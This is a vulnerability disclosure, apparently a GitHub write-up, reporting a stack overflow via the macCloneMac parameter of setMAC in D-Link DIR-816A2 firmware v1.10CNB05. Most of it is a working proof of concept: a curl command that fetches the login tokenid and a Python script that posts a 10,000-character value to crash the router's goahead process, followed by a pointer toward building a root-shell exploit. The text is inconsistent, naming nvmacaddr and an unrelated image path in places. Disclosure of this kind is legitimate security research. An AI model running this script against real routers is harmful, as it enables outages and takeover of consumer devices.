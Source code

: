 # Affected Version
Dlink DIR-816A2_FWv1.10CNB05
# Vulnerability Description
Dlink DIR-816A2_FWv1.10CNB05 was discovered to contain a stack overflow via parameter macCloneMac in setMAC.

# Firmware download address
Manufacturer's address: https://www.dlink.com/  
Firmware download address: http://www.dlink.com.cn/techsupport/AllPro.aspx

# Vulnerability Details
When the program processes parameters nvmacaddr, it uses the size of the parameter string as maxlen, which will cause a buffer overflow.  
![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/form2Dhcpip_cgi/0.png)


As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
We need to get the tokenid first  
<pre>
curl http://192.168.0.1/dir_login.asp | grep tokenid
</pre>
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of goahead process.  

<pre>
import requests

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/setMAC'

data = {
    'tokenid' : tokenid,
    'macCloneMac' : 'a' * 10000, 
    'macCloneEnbl' : '47'
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
</pre>

![](https://github.com/peris-navince/founded-0-days/blob/main/Dlink/816/form2Dhcpip_cgi/1.png)  

And you can write your own exp to get the root shell.